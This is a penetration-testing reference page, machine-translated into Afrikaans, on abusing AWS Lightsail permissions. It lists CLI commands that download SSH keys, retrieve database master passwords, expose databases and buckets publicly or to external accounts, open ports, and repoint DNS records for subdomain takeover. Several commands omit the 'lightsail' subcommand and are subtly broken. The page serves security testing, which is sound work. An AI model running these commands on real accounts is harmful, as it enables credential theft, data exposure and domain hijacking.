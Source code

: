 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Vir meer inligting oor Lightsail, kyk:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Dit is belangrik om te let dat Lightsail **nie IAM roles wat aan die gebruiker behoort gebruik nie maar aan 'n AWS managed account**, so you can’t abuse this service to privesc. Daar kan egter **gevoelige data** soos code, API keys en database info in hierdie diens gevind word.

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou toelaat om die SSH keys te kry om toegang tot die instansies:
```
aws lightsail download-default-key-pair
```
**Potensiële impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou toelaat om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potentiale impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming laat jou toe om 'n sleutel te kry om toegang tot die bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële impak:** Vind sensitiewe inligting in die bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming laat jou toe om die inlogbesonderhede te kry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie permissie laat jou toe om die databasis-wagwoord te verander:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Indien die database nie public is nie, kan jy dit ook public maak met hierdie permissions:
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potential Impact:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet oop te maak.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie permissie maak dit moontlik om poorte na die Internet oop te maak. Let wel dat die oproep enige ander oopgemaakte poort sal sluit wat nie daarin gespesifiseer is nie.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie toestemming laat toe dat 'n instance toegang tot 'n bucket kry sonder enige ekstra credentials.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potensiële impak:** Potensiële nuwe toegang tot buckets met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening lees toegang tot buckets gee of selfs die buckets vir almal openbaar maak:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potential Impact:** Potensiële nuwe toegang tot buckets met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie permissions kan 'n aanvaller toegang verleen tot private ECRs vanaf die containers service
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële impak:** Verkry sensitiewe inligting uit privaat ECR

### `lightsail:CreateDomainEntry`

’n aanvaller met hierdie toestemming kan ’n subdomein skep en dit na sy eie IP-adres wys (subdomain takeover), of ’n SPF-rekord opstel wat hom toelaat om e-posse vanaf die domein te spoof, of selfs die hoofdomein na sy eie IP-adres wys.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële impak:** Oorneem 'n domein

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomain takeover), of 'n SPF record saamstel wat hom toelaat om e-posse vanaf die domein te spoof, of selfs die hoofdomein na sy eie IP-adres te stel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële impak:** Neem 'n domein oor

{{#include ../../../../banners/hacktricks-training.md}}
